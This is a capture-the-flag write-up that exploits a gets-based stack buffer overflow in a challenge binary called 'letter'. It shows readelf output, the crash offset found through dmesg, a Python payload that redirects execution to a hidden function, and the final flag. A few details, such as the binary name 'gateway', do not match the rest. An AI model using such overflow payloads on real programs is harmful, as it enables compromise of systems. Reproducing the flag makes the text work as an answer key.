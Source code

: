 # Delta CTF 2020: The Love Letter.


> Find and submit the {flag}
>
> (./file/letter)

## Write-up

1. You are given an executable file called `letter`. When we try running the executable, we get the output as follows.

```bash
$ ./letter
Enter 10-digit Access Code: 1111111111
Access denied. You have to try harder ;)
```

The binary appears to prompt for a code, and denies access if the given code is incorrect.

2. When we enter a long string as input, we observe a segmentation fault.

```bash
$ ./letter
Enter 10-digit Access Code: 111111111111111111111111111111111111111
Access denied. You have to try harder ;)
Segmentation fault (core dumped)
```

This indicates that there might be a buffer overflow occurring.

3. We can confirm that by running `readelf`, which shows us the sections that are there in the executable.

```bash
$ readelf -s gateway
Symbol table '.dynsym' contains 10 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND 
    1: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.0 (2)
    2: 00000000     0 FUNC    GLOBAL DEFAULT  UND fflush@GLIBC_2.0 (2)
    3: 00000000     0 FUNC    GLOBAL DEFAULT  UND gets@GLIBC_2.0 (2)
    4: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.0 (2)
    5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    6: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
    7: 00000000     0 FUNC    GLOBAL DEFAULT  UND execl@GLIBC_2.0 (2)
    8: 00000000     0 OBJECT  GLOBAL DEFAULT  UND stdout@GLIBC_2.0 (2)
    9: 0804a004     4 OBJECT  GLOBAL DEFAULT   17 _IO_stdin_used
  
Symbol table '.symtab' contains 74 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    48: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@@GLIBC_2.0
    49: 00000000     0 FUNC    GLOBAL DEFAULT  UND fflush@@GLIBC_2.0
    50: 00000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.0
    51: 08049365     0 FUNC    GLOBAL HIDDEN    15 __x86.get_pc_thunk.bp
    52: 0804c02c     0 NOTYPE  GLOBAL DEFAULT   25 _edata
    53: 0804936c     0 FUNC    GLOBAL HIDDEN    16 _fini
    54: 08049216    60 FUNC    GLOBAL DEFAULT   15 show
    55: 0804c024     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
    56: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@@GLIBC_2.0
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    58: 0804c028     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
    59: 0804a004     4 OBJECT  GLOBAL DEFAULT   17 _IO_stdin_used
    60: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    61: 080492f0   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    62: 0804c030     0 NOTYPE  GLOBAL DEFAULT   26 _end
    63: 08049140     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_static_pie
    64: 08049100    59 FUNC    GLOBAL DEFAULT   15 _start
    65: 0804a000     4 OBJECT  GLOBAL DEFAULT   17 _fp_hw
    66: 00000000     0 FUNC    GLOBAL DEFAULT  UND execl@@GLIBC_2.0
    67: 00000000     0 OBJECT  GLOBAL DEFAULT  UND stdout@@GLIBC_2.0
    68: 0804c02c     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    69: 0804928f    88 FUNC    GLOBAL DEFAULT   15 main
    70: 08049252    61 FUNC    GLOBAL DEFAULT   15 broken
    71: 080492e7     0 FUNC    GLOBAL HIDDEN    15 __x86.get_pc_thunk.ax
    72: 0804c02c     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    73: 08049000     0 FUNC    GLOBAL HIDDEN    12 _init
```

We can see that it calls the function `gets`, which is a very vulnerable function to get input in C. Therefore, it is confirmed that a buffer overflow is occurring here.

We can also see from the output of `readelf` that there's a function other than `main`, called `show`, whose address is `08049216`.

4. The maximum length that the name can be is given as 10, hence we can find the point of overflow by starting at 11 and incrementing the length of input by 2 and analyzing the output of `dmesg | tail` to see when the return address is overwritten.

```bash
$ python -c 'print ("A"*23)' | ./letter
Enter 10-digit Access Code: Access denied. You have to try harder ;)
Segmentation fault (core dumped)

$ dmesg | tail
[ 4086.477530] letter[14442]: segfault at 8040041 ip 0000000008040041 sp 00000000ffed45a0 error 14 in letter[8048000+1000]
```

We can see that at a length of 23, the last A has appeared at the last byte of the instruction pointer, with the hex value of `0x41`.

5. By giving the address of the `show` function in little endian as input, we can redirect the flow of execution.

```bash
$ python -c 'print ("A"*22 + "\x16\x92\x04\x08")' | ./file/letter
Enter 10-digit Access Code: Access denied. You have to try harder ;)
cat: flag.txt: No such file or directory
```

Therefore, it looks like the binary tries to print the contents of a file called `flag.txt`.

6. When entering this input on the server, we get the output as follows.

```bash
$ python -c 'print ("A"*22 + "\x16\x92\x04\x08")' | ./letter
Enter 10-digit Access Code: Access denied. You have to try harder ;)
dctf{Y0ur3_l1K3_A_Fr13nD_7o_M3}
```

Therefore, we find that the flag is dctf{Y0ur3_l1K3_A_Fr13nD_7o_M3}.